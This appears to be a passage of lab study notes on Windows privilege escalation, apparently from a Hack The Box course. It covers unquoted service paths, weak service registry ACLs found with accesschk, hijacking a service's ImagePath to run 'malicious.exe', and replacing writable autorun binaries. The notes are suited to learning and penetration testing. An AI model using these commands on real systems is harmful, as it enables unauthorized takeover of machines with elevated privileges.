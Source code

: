 ### Execution Order Analysis
```cmd
# Windows searches for executables in this order:
C:\Program.exe
C:\Program Files (x86)\System.exe
C:\Program Files (x86)\System Explorer\service\SystemExplorerService64.exe

# Limitation: Requires admin privileges to write to root or Program Files
```

## 🔑 Permissive Registry ACLs

### Registry Service Key Enumeration
```cmd
# Check for weak registry ACLs
accesschk.exe /accepteula "htb-student" -kvuqsw hklm\System\CurrentControlSet\services

# Vulnerable example:
RW HKLM\System\CurrentControlSet\services\ModelManagerService
        KEY_ALL_ACCESS
```

### Registry Modification Attack
```powershell
# Modify service ImagePath in registry
Set-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Services\ModelManagerService -Name "ImagePath" -Value "C:\Users\htb-student\malicious.exe"

# Restart service or system for execution
```

## 🚀 Modifiable Registry Autorun Binary

### Autorun Program Discovery
```powershell
# Check startup programs
Get-CimInstance Win32_StartupCommand | select Name, command, Location, User | fl

# Example autorun locations:
- HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run (System-wide)
- HKU\S-1-5-21-...\SOFTWARE\Microsoft\Windows\CurrentVersion\Run (User-specific)
```

### Autorun Exploitation
```cmd
# Check permissions on autorun binary
icacls "C:\Program Files (x86)\Windscribe\Windscribe.exe"

# If writable, replace with malicious binary
# Executes when target user logs in
```
